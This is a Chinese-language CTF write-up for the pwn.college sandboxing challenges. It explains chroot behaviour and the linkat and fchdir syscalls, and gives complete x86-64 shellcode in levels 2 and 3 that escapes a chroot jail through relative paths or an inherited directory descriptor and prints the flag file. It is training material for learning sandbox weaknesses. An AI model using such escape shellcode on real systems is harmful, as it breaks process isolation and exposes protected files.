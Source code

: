 ```yaml
---
title: PWN-College-SandBox-Writeup
date: 2024-09-14 10:46:00
author: 美食家李老叭
img: https://laboratory-1304292449.cos.ap-nanjing.myqcloud.com/note/20240606170337.png
top: false
hide: false
cover: false
coverImg: 
password: 
toc: true
mathjax: false
summary: CTF 
categories: CTF
tags:
    - Web
---
```

# pwn.college

https://pwn.college/system-security/sandboxing/

## 有价值的问题

###

###


## level 1

如果在根目录下面执行的话，直接`/challenge/babay flag`即可

`chroot()` changes the meaning of `/` for a process and its children.

`chroot("/tmp/jail")` has two effects:
 - For this process, change the meaning of "/" to mean "/tmp/jail".
    - and everything under that: "/flag" becomes "/tmp/jail/flag"
 - For this process, change "/tmp/jail/.." to go to "tmp/jail"

`chroot("/tmp/jail")` does NOT:
- Close resources that reside outside of the jail.
- `cd(chdir())` into the jail.
- Do anything else ！
- Neither of the effects of `chroot` do anything to previously-open resources.
- change hte current working directory



## level 2

`/challenge/babyjail_level2 ./test < ./shellcode.bin`

```asm
BITS 64

section .data
    filename db '../../../../flag', 0    ; 文件路径需要替换为正确的路径

section .bss
    buffer resb 100                   ; 100 字节缓冲区

section .text
global _start

_start:
    ; open("filename", O_RDONLY)
    xor rax, rax
    mov rax, 2                        ; SYS_open
    lea rdi, [rel filename]
    xor rsi, rsi                      ; O_RDONLY = 0
    syscall

    ; 检查 open 的返回值
    test rax, rax
    js error                          ; 如果打开文件失败，跳转到错误处理

    ; read(fd, buffer, 100)
    mov rdi, rax                      ; fd
    lea rsi, [rel buffer]
    mov rdx, 100                      ; 读取 100 字节
    xor rax, rax                      ; SYS_read
    syscall

    ; write(1, buffer, rax)
    mov rdi, 1                        ; stdout
    mov rdx, rax                      ; 读取的字节数
    mov rax, 1                        ; SYS_write
    syscall

    ; exit(0)
    xor rdi, rdi                      ; 返回码 0
    mov rax, 60                       ; SYS_exit
    syscall

error:
    ; exit(1)
    mov rdi, 1                        ; 返回码 1
    mov rax, 60                       ; SYS_exit
    syscall
```

## level 3

注意`open`函数打开的，既有可能是一个文件，也有可能是一个目录。

`/challenge/babyjail_level3 ./ < ./shellcode.bin`

```asm
BITS 64

section .data
    filename db '../../../../flag', 0    ; 文件路径需要替换为正确的路径
    errormessage db 'error', 0

section .bss
    buffer resb 100                   ; 100 字节缓冲区

section .text
global _start

_start:
    ; openat(3, filename, 0, 0)
    xor rdi, rdi
    xor rax, rax
    xor r10, r10
    mov rdi, 3
    xor rdx, rdx
    mov rax, 0x101                    ; SYS_openat
    lea rsi, [rel filename]
    syscall

    ; 检查 open 的返回值
    test rax, rax
    js error                          ; 如果打开文件失败，跳转到错误处理

    ; read(fd, buffer, 100)
    mov rdi, rax                      ; fd
    lea rsi, [rel buffer]
    mov rdx, 100                      ; 读取 100 字节
    xor rax, rax                      ; SYS_read
    syscall

    ; write(1, buffer, rax)
    mov rdi, 1                        ; stdout
    mov rdx, rax                      ; 读取的字节数
    mov rax, 1                        ; SYS_write
    syscall

    ; exit(0)
    xor rdi, rdi                      ; 返回码 0
    mov rax, 60                       ; SYS_exit
    syscall

error:
    ; write(1, buffer, rax)
    lea rsi, [rel errormessage]
    mov rdi, 1                        ; stdout
    mov rdx, rax                      ; 读取的字节数
    mov rax, 1                        ; SYS_write
    syscall


    ; exit(1)
    mov rdi, 1                        ; 返回码 1
    mov rax, 60                       ; SYS_exit
    syscall


```

## level 4



## level 5

### 系统调用参数

`linkat`的函数原型是：

```c
int linkat(int olddirfd, const char *oldpath, int newdirfd, const char *newpath, int flags);
```

- `olddirfd`: 指向旧目录文件描述符（可以是`AT_FDCWD`，表示当前工作目录）。
- `oldpath`: 指向要链接的源路径的指针。
- `newdirfd`: 指向新目录文件描述符（可以是`AT_FDCWD`，表示当前工作目录）。
- `newpath`: 指向目标路径的指针。
- `flags`: 链接时的标志。




## level 6

`fchdir`是一个系统调用，用于更改当前工作目录到由文件描述符指定的目录。与`chdir`不同，`fchdir`是通过一个打开的文件描述符进行操作，而不直接使用路径名。

### 函数原型

```c
int fchdir(int dirfd);
```

### 参数

- `dirfd`: 指向要设置为当前工作目录的目录的文件描述符。这个文件描述符必须是一个有效的目录。如果使用`AT_FDCWD`作为参数，则表示使用当前工作目录。

### 返回值

- 如果成功，返回`0`。
- 如果失败，返回`-1`，并将`errno`设置为表示错误的代码。

## level 7
